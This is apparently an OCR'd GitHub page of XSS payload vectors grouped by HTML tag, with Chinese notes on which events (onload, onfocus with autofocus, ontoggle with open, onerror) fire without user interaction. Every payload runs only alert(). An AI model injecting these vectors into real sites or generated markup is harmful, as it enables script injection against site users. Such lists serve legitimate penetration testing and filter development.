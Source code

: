 

**`<svg>`**

> 
`<svg onload=alert(1)>`



**`<body>`**

> 
`<body onload="alert(1)">`<br/> 利用换行符以及autofocus，自动去触发onscroll事件，无需用户去触发<br/> `<body onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>`



**`<button>`**

> 
元素上点击鼠标时触发<br/> `<button onclick="alert(1)">text</button>`



**`<p>`**

> 
元素上按下鼠标时触发<br/> `<p onmousedown="alert(1)">text</p>`<br/> 元素上释放鼠标时触发<br/> `<p onmouseup="alert(1)">text</p>`



**`<details>`**

> 
`<details ontoggle="alert('xss');">`<br/> 使用open属性触发ontoggle事件，无需用户去触发<br/> `<details open ontoggle="alert('xss');">`



**`<select>`**

> `<select onfocus=alert(1)></select>`<br/> 通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发<br/> `<select onfocus=alert(1) autofocus>`



**`<video>`**

> `<video><source onerror="alert(1)">`



**`<audio>`**

> 
`<audio src=x onerror=alert("xss");>`



**`<textarea>`**

> 
`<textarea onfocus=alert("xss"); autofocus>`


